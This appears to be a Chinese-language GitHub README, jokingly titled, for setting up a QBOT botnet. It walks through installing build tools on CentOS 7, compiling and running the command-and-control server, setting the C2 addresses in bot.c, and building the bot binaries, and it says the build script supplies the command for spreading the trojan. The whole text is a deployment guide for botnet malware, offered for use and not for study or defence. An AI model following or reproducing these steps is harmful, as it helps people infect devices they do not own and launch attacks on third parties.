 # 非常哈基米的僵尸网络(QBOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
curl -o /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听僵尸端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换bot.c的cnc 地址和端口
```c
bot.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译僵尸
```python
python bot_install.py
```
`完事就是这么简单`  
`传马命令他会给出的`  
`后面僵尸自己弄`  
